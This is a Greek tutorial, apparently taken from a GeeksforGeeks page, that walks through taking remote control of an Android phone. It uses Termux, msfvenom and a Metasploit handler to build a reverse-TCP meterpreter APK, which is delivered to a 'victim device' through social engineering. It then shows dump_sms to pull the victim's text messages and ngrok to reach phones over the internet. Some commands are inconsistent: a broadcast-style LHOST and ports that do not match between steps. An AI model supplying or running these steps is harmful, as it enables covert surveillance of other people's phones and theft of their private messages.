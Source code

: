 # Απομακρυσμένη Πρόσβαση στο Ethical Hacking

---

Η απομακρυσμένη πρόσβαση είναι μια ευπάθεια μέσω της οποίας οι επιτιθέμενοι μπορούν να ελέγχουν οποιαδήποτε συσκευή. Συνήθως χρησιμοποιούνται **payloads** για τον απομακρυσμένο έλεγχο. Τα payloads αποστέλλονται μέσω **κοινωνικής μηχανικής** ή **phishing επιθέσεων**. Μόλις το payload εισαχθεί, ξεκινά η πραγματική επίθεση. Το payload παρέχει μια αντίστροφη σύνδεση.  

Συχνά χρησιμοποιείται το **Metasploit Framework** για τη δημιουργία payloads. Υπάρχουν τρεις διαφορετικοί τύποι modules payload στο Metasploit Framework:

- Singles  
- Stagers  
- Stages  

![Phishing Attack Structure](https://media.geeksforgeeks.org/wp-content/uploads/20220626093450/drawremotegeekstogeek.png)

Ας δούμε πώς μπορούμε να εκμεταλλευτούμε και να αποκτήσουμε απομακρυσμένη πρόσβαση σε μια συσκευή Android χρησιμοποιώντας το Metasploit. Στο Android, χρειαζόμαστε **Termux** για να τρέξουμε το Metasploit. Μετά την εγκατάσταση του Termux, πρέπει να εγκαταστήσουμε το **Metasploit Framework**.

![Termux](https://media.geeksforgeeks.org/wp-content/uploads/20220628112040/geekstermux1.png)

Μετά την εγκατάσταση του Metasploit Framework, τρέξτε:

```bash
pkg update && pkg upgrade
termux-setup-storage
```

Η εντολή `termux-setup-storage` δίνει άδεια αποθήκευσης στο Termux ώστε να αποθηκεύονται τα payloads ή να τα αντιγράψουμε στο κινητό. Χρησιμοποιώντας την εντολή `ls` μπορούμε να δούμε τον κατάλογο **storage**.

### Βασικές εντολές:

```bash
$ pkg update && pkg upgrade
$ termux-setup-storage
```

Μπορούμε να δημιουργήσουμε διάφορους τύπους payloads ανάλογα με τις ανάγκες. Ας δημιουργήσουμε ένα payload για πρόσβαση σε συσκευή που βρίσκεται στο ίδιο δίκτυο (το ίδιο δίκτυο αναφέρεται σε συσκευές συνδεδεμένες μεταξύ τους, είτε απευθείας είτε μέσω mobile hotspot). Το payload θα ονομαστεί **Geeks.apk**.

Η δημιουργία του payload γίνεται με την εντολή `msfvenom`. Το `lhost` είναι η IP σας (`ifconfig` για να τη βρείτε) και το `lport` είναι η θύρα.

```bash
$ msfvenom -p android/meterpreter/reverse_tcp lhost=192.168.60.255 lport=5321 R> Geeks.apk
```

Μετά τη δημιουργία του payload, αντιγράψτε το στο storage:

```bash
$ cp Geeks.apk storage
$ cd storage
$ ls
```

Κατεβάστε το **Geeks.apk** στη συσκευή και δώστε όλες τις άδειες. Αυτό θα παρέχει αντίστροφη σύνδεση με τον host.

Για να εκμεταλλευτούμε τη συσκευή, τρέξτε το `msfconsole` και εισάγετε:

```bash
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload android/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST your_ip
msf6 exploit(multi/handler) > set LPORT your_port
msf6 exploit(multi/handler) > exploit
```

**Σημείωση:** Εισάγετε το ίδιο `lhost` και `lport` που χρησιμοποιήσατε για τη δημιουργία του payload.

![Meterpreter Session](https://media.geeksforgeeks.org/wp-content/uploads/20220626112107/atermuxpay.jpeg)

Μόλις αποκτήσουμε **meterpreter session** (αντίστροφη σύνδεση), μπορούμε να τρέξουμε την εντολή `help` για να δούμε τι μπορούμε να κάνουμε. Για παράδειγμα, για να πάρουμε τα μηνύματα SMS από τη συσκευή θύμα:

```bash
dump_sms $HOME
$ mv sms_file_name storage
$ cd storage
$ mv sms_file_name downloads
```

Μπορούμε πλέον να διαβάσουμε τα SMS από τον κατάλογο **downloads**.

![Exploit SMS](https://media.geeksforgeeks.org/wp-content/uploads/20220628113304/aexploit1.png)

Η απομακρυσμένη πρόσβαση οδηγεί σε απώλεια εμπιστευτικότητας. Ένας επιτιθέμενος μπορεί να κάνει οτιδήποτε θέλει. Στο παράδειγμά μας, αυτό γίνεται σε localhost.

Για εκμετάλλευση συσκευής οπουδήποτε στον κόσμο, χρειάζεται **ngrok**. Κατεβάστε ngrok για Linux και μετακινήστε το στο home directory:

```bash
$ cd storage
$ cd downloads
$ mv ngrok $HOME
$ chmod +x ngrok
```

Στις περισσότερες περιπτώσεις, το ngrok δεν τρέχει σε κανονικό περιβάλλον, οπότε χρειάζεται Ubuntu ή άλλο εξωτερικό OS (π.χ. μέσω AnLinux app). Μετά την εγκατάσταση, εισάγετε το auth token:

```bash
$ ./ngrok config add-authtoken <token>
$ ./ngrok tcp 5431
```

Το payload δημιουργείται όπως προηγουμένως, αλλά με **LHOST** και **LPORT** από το ngrok:

```bash
$ msfvenom -p android/meterpreter/reverse_tcp lhost=6.tcp.ngrok.io lport=16960 R> Geeks.apk
```

Αντιγράψτε το payload στη συσκευή θύμα και τρέξτε το `msfconsole`:

```bash
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload android/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 0.0.0.0
msf6 exploit(multi/handler) > set LPORT 5544
msf6 exploit(multi/handler) > exploit
```

Τώρα αποκτάμε πλήρη πρόσβαση στη συσκευή θύμα. Υπάρχουν πολλοί τρόποι για να αποκτήσει κάποιος απομακρυσμένη πρόσβαση. Συνήθως δημιουργούνται **backdoors** για παραμονή στη συσκευή θύμα. Το payload είναι ένας τύπος backdoor μέσω του οποίου εκμεταλλευτήκαμε τη συσκευή.

![Remote Access Overview](https://media.geeksforgeeks.org/wp-content/uploads/20220626193023/draw2.png)
